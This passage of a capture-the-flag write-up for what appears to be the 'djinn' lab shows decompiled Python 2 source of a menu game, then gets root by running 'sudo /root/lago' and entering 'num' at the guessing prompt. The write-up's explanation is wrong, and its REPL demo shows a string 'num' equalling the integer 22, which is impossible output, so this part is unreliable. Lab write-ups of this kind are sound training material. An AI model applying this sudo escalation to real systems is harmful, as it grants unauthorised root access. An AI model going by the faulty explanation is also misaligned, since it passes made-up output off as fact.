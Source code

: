 ```bash
def readfiles():
    user = getuser()
    path = input('Enter the full of the file to read: ')
    print 'User %s is not allowed to read %s' % (user, path)


def options():
    print 'What do you want to do ?'
    print '1 - Be naughty'
    print '2 - Guess the number'
    print '3 - Read some damn files'
    print '4 - Work'
    choice = int(input('Enter your choice: '))
    return choice


def main(op):
    if op == 1:
        naughtyboi()
    elif op == 2:
        guessit()
    elif op == 3:
        readfiles()
    elif op == 4:
        print 'work your ass off!!'
    else:
        print 'Do something better with your life'


if __name__ == '__main__':
    main(options())
# okay decompiling app.pyc
```

Looking at the code, this is a small script with several games. Only one appears to be interesting though - "Guess the number" which runs /bin/sh if the number is guessed correctly. This function isn't written correctly - "num" is not being converted to an integer before being compared. This means that the input from the user will instead be compared to the actual string "num", and the random number is ignored.
```python
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ python                                                               
Python 2.7.18 (default, Apr 20 2020, 20:30:41) 
[GCC 9.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> num = 22
>>> string = 'num'
>>> string == num
True
```

### 13. Win the game and get root
```bash
sam@djinn:/home/sam$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
Choose a number between 1 to 100: 
Enter your number: num
# whoami
root
```